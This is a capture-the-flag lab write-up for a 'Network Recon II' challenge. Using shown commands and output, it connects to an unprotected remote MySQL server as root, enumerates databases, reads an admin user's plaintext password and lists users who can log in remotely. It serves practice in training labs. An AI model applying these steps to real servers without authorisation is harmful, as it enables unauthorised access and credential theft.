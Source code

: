 # Network Recon II

## Challenge Description
A web application uses MySQL server as the database server. The attacker has sneaked into the network on which the MySQL server is present.

Please answer the following questions:
1. Find the name of the database which contains the table 'endpoints'.
2. Find the password of 'admin' user stored in 'users' table in 'webapp_settings' database.
3. Which user other than root can connect to the MySQL server remotely?

## Instructions
* Once you start the lab, you will have access to a root terminal of a Kali instance
* Your Kali has an interface with IP address 192.X.Y.2. Run "ip addr" to know the values of X and Y.
* The Target machine should be located at the IP address 192.X.Y.3. 

---

## Solution

Following the instructions, we can find the IP address by using `ip addr`. In this case, the target machine has an address of `192.66.1.3`.

We can connect to a remote MySQL server by using the `mysql` command with the `-h` option, which stands for `--host`, to specify the IP address:
```
root@attackdefense:~# mysql -h 192.66.1.3
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 43
Server version: 5.5.62-0ubuntu0.14.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
```

We can now proceed with finding the flags.

### 1. Find name of database containing table `endpoints`

Using the `show` command, we can list the databases:
```
MySQL [(none)]> show schemas
    -> ;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| data               |
| management         |
| mysql              |
| performance_schema |
| webapp_settings    |
+--------------------+
6 rows in set (0.001 sec)
```

I'm not sure if there's a more efficient way to do this (I couldn't find any), but I manually looked through the databases and listed the tables. Eventually, I found the database containing the table `endpoints`:
```
MySQL [management]> use data;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [data]> show tables;
+------------------+
| Tables_in_data   |
+------------------+
| developer_manual |
| doc              |
| endpoints        |
| issues           |
+------------------+
4 rows in set (0.000 sec)
```

#### Flag 1:
```
data
```

### 2. Find password of `admin`

Firstly, we have to switch to the `webapp_settings` database, and look in the `users` table:
```
MySQL [data]> use webapp_settings;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```

To get a clearer idea of what the table looks like, we can use the `describe` command:
```
MySQL [webapp_settings]> describe users;           
+-------------+--------------+------+-----+---------+----------------+
| Field       | Type         | Null | Key | Default | Extra          |
+-------------+--------------+------+-----+---------+----------------+
| id          | int(11)      | NO   | PRI | NULL    | auto_increment |
| username    | varchar(255) | YES  |     | NULL    |                |
| password    | varchar(255) | YES  |     | NULL    |                |
| role        | varchar(255) | YES  |     | NULL    |                |
| is_active   | tinyint(1)   | YES  |     | NULL    |                |
| date_joined | varchar(255) | YES  |     | NULL    |                |
+-------------+--------------+------+-----+---------+----------------+
6 rows in set (0.001 sec)
```

Then, we can use normal SQL syntax to get the password of `admin`:
```
MySQL [webapp_settings]> select password from users where username = 'admin';
+-----------+
| password  |
+-----------+
| admin@123 |
+-----------+
1 row in set (0.000 sec)
```

Plaintext password storage. Shameful.

#### Flag 2:
```
admin@123
```

### 3. Find other user that can connect remotely

This information is likely stored in the `mysql` database, so let's switch to that one, and see what tables we have to work with:
```
MySQL [performance_schema]> use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [mysql]> show tables;
+---------------------------+
| Tables_in_mysql           |
+---------------------------+
| columns_priv              |
| db                        |
| event                     |
| func                      |
| general_log               |
| help_category             |
| help_keyword              |
| help_relation             |
| help_topic                |
| host                      |
| ndb_binlog_index          |
| plugin                    |
| proc                      |
| procs_priv                |
| proxies_priv              |
| servers                   |
| slow_log                  |
| tables_priv               |
| time_zone                 |
| time_zone_leap_second     |
| time_zone_name            |
| time_zone_transition      |
| time_zone_transition_type |
| user                      |
+---------------------------+
24 rows in set (0.001 sec)
```

Let's look in the `user` table. By doing `describe user`, we can find the columns in the table. (Unfortunately I didn't manage to copy the output for that command, so I can't show it here)

We can see that there's a `Host` and a `User` column, so let's take a look at those:
```
MySQL [mysql]> select Host, User from user;
+--------------+------------------+
| Host         | User             |
+--------------+------------------+
| %            | Developer        |
| %            | root             |
| 127.0.0.1    | root             |
| 86cc49b05b1a | root             |
| ::1          | root             |
| localhost    | alice            |
| localhost    | bob              |
| localhost    | dbadmin          |
| localhost    | debian-sys-maint |
| localhost    | jim              |
| localhost    | root             |
+--------------+------------------+
11 rows in set (0.000 sec)
```

In MySQL, `%` is a wildcard matching any number of characters – in this context, effectively allowing connection from any host. We can see that the other users can only connect from localhost, and besides `root`, the only other user that can connect from any host is `Developer`.

#### Flag 3:
```
Developer
```
